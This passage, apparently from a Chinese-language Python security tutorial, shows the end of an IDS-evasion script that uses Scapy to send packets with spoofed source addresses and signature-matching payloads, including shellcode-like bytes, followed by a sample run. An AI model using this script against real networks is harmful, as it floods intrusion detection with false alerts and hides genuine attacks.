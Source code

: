 ```
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src, dst=dst) / UDP(dport=635) /Raw(load="^\xB0\x02\x89\x06\xFE\xC8\x89F\x04\xB0\x06\x89F")
    send(pkt, iface=iface, count=count)

def scanTest(src, dst, iface, count):
    pkt = IP(src=src, dst=dst) / UDP(dport=7) /Raw(load='cybercop')
    send(pkt)
    pkt = IP(src=src, dst=dst) / UDP(dport=10080) /Raw(load='Amanda')
    send(pkt, iface=iface, count=count)

def main():
    parser = optparse.OptionParser('usage%prog -i<iface> -s <src> -t <target> -c <count>')
    parser.add_option('-i', dest='iface', type='string', help='specify network interface')
    parser.add_option('-s', dest='src', type='string', help='specify source address')
    parser.add_option('-t', dest='tgt', type='string', help='specify target address')
    parser.add_option('-c', dest='count', type='int', help='specify packet count')
    (options, args) = parser.parse_args()
    if options.iface == None:
        iface = 'eth0'
    else:
        iface = options.iface
    if options.src == None:
        src = '.'.join([str(randint(1,254)) for x in range(4)])
    else:
        src = options.src
    if options.tgt == None:
        print(parser.usage)
        exit(0)
    else:
        dst = options.tgt
    if options.count == None:
        count = 1
    else:
        count = options.count
    ddosTest(src, dst, iface, count)
    exploitTest(src, dst, iface, count)
    scanTest(src, dst, iface, count)

if __name__ == '__main__':
    main() 
```

执行我们最终的脚本，我们可以看到它正确的发送了八个数据包到目标地址，欺骗源地址为`1.3.3.7`。为了测试目的，确保目标主机和攻击者的机器不同。

```
attacker# python idsFoil.py -i eth0 -s 1.3.3.7 -t 192.168.1.106 -c 1
Sent 1 packets.
Sent 1 packets.
Sent 1 packets.
Sent 1 packets.
Sent 1 packets.
Sent 1 packets.
Sent 1 packets.
Sent 1 packets. 
```
